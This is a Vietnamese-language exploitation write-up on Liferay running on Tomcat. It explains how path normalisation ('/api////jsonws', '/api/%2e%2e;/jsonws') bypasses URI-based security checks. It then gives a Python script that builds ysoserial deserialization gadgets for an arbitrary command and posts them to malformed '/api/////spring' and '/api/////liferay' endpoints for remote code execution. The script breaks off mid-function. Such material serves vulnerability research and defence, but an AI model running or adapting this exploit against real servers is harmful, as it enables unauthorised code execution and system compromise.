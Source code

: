 ###### Bước 3: Quan sát biến trong debugger

Giả sử:
```js
String uri = request.getRequestURI();
```

Bạn sẽ thấy:
```js
uri = "/api////jsonws/user/get-current-user"
```

Sau đó, Tomcat chuẩn hóa (nội bộ):
```js
servletPath = "/api/jsonws"
```

---

##### 📌 **4. Cơ chế servlet mapping trong Tomcat**

Tomcat sẽ **tự động xử lý các path bất thường** như sau:

|Input URL|Chuẩn hóa thành|
|---|---|
|`/api/jsonws`|`/api/jsonws`|
|`/api////jsonws`|`/api/jsonws`|
|`/api//;/jsonws`|`/api/jsonws`|
|`/api/%2e%2e;/jsonws`|`/api/jsonws`|

Do đó, **Servlet Mapping** vẫn khớp đúng → request được xử lý bình thường, **bỏ qua kiểm tra bảo mật** nếu logic kiểm tra sử dụng URI gốc.

---
### **e. Viết mã khai thác cho cả hai trường hợp /api/liferay và /api/spring (gadget payload dùng tool ysoserial để tạo)**

Đây là mã khai thác sử dụng ysoserial được viết bằng **python** dùng để RCE

```js
import requests  
import os  
import base64  
import argparse  
  
def generate_b64_payload(chain, command):  
    payload_file = "payload.bin"  
    ysoserial_path = "C:\\Users\\Admin\\ysoserial\\target\\ysoserial.jar"  
    os.system(f'java -jar "{ysoserial_path}" {chain} "{command}" > {payload_file}')  
  
    with open(payload_file, 'rb') as f:  
        raw_payload = f.read()  
    os.remove(payload_file)  
    return base64.b64encode(raw_payload)  
  
  
def send_payload(url, endpoint, payload):  
    if endpoint == "/api/spring":  
        endpoint = "/api/////spring/com_liferay_portal_service_spring_UserService-http"  
    else:  
        endpoint = "/api/////liferay"  
    req = requests.post(str(url) + endpoint, data=base64.b64decode(payload))  
    if req.status_code == 200 or req.status_code == 500:  
        print("Send payload successfully!!")  
    else:  
```